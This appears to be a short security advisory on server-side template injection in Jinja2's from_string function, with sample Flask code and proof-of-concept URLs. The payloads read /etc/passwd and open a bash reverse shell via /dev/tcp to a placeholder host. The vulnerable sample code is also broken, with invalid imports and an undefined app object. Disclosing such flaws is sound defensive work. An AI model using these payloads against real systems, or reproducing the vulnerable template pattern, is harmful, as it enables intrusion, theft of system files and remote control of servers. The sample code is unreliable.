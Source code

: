 #Jinja2 Command injection from_string function <br />
#Website: Ordina.nl <br />
Author: Jameel Nabbo   <br />
Email: jameel.nabbo[at]ordina.nl   <br />

// from_string function is prone to SSTI where it takes the "source" parameter as a template object and render it and then return it.


//here's an example about the vulnerable code that uses from_string function in order to handle a variable in GET called 'username' and returns Hello {username}:

```python

import Flask
import request
import Jinja2


@app.route("/")
def index():
	username = request.values.get('username')
	return Jinja2.from_string('Hello ' + username).render()


if __name__ == "__main__":
	app.run(host='127.0.0.1' , port=4444)

```


POC
//Exploiting the username param
http://localhost:4444/?username={{4*4}}
OUTPUT: Hello 16

Reading the /etc/passwd

http://localhost:4444/?username={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}


Getting a reverse shell 
http://localhost:4444/?username={{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }}


How to prevent it:
Never let the user provide template content.
